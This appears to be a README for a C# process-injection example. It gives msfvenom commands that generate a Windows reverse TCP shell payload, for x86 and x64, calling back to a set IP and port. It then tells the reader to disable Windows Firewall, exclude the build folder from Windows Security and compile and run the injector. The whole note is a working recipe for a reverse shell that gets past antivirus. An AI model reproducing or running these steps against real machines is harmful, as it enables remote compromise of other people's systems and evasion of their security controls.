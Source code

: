 # Notes

1. To generate the payload, you need to use the following commands. The following is for x86

```sh
msfvenom -p windows/shell_reverse_tcp exitfunc=thread LHOST=192.168.100.128 LPORT=4444 -f csharp
```

The following is for x64

```sh
msfvenom -p windows/x64/shell_reverse_tcp exitfunc=thread LHOST=192.168.100.128 LPORT=4444 -f csharp
```

2. For msfvenom to work, you need to install metasploit framework on windows. See the reference for download link. 

3. Windows firewall will not allow you to even download the metasploit framework. So you need to disable it. See the Youtube video given in the reference.

4. You need to enable unsafe code for the project as follows. Rightclick the project and select project properties.

![Enable unsafe code](images/50_50_EnableUnsafeCodeForProject.png)

5. The end result of that step will be, the project file will be modified as follows.

```xml
<AllowUnsafeBlocks>True</AllowUnsafeBlocks>
```

6. Windows Security will not allow this program to run. So you need to explude the output folder. See the previous example, SimpleShellCode for steps.

7. Now compile and run.

# References
1. https://github.com/tasox/CSharp_Process_Injection
2. https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html#installing-metasploit-on-windows
3. https://youtu.be/IuXmboYm3Gk?t=35
4. 